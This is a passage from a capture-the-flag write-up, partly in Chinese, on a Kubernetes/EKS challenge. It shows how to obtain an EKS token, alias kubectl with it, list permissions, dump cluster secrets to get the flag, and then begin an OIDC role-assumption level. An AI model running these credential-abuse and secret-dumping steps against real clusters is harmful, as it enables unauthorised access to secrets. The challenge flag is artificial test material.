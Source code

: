 ``` yaml
        interactiveMode: IfAvailable
        provideClusterInfo: false
```

```
export KUBECONFIG=<above-content.yaml>
```
#### Method 2 direct use token

```bash
aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-XX-XXTXX:XX:XXX",
        "token": "k8s-aws-v1.aHR0{TOKEN_URL IN BASE64ed}A3OTFhMDI4NjEy"
    }
}
```

```
alias kubectl="kubectl --token={status.token k8s-aws-v1.aHR0{TOKEN_URL IN BASE64ed}A3OTFhMDI4NjEy}"
```

#### Final

这里我们如果不确定有什么权限可以通过 下面的指令 进行查看

``` bash
kubectl auth can-i --list

Resources                                       Non-Resource URLs   Resource Names     Verbs
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
```

再获取一下 flag

```
kubectl get secrets -o yaml
```

```
wiz_eks_challenge{only_a_real_pro_can_navigate_IMDS_to_EKS_congrats}
```

### Level5: back AWS with OIDC 

这个层级是 Level 4 的更进一步。

```json
{
  "Version": "2012-10-17",
  "Statement":
    [
      {
        "Effect": "Allow",
        "Principal":
          {
            "Federated": "arn:aws:iam::688655246681:oidc-provider/oidc.eks.us-west-1.amazonaws.com/id/C062C207C8F50DE4EC24A372FF60E589",
          },
        "Action": "sts:AssumeRoleWithWebIdentity",
        "Condition":
          {
            "StringEquals":
```
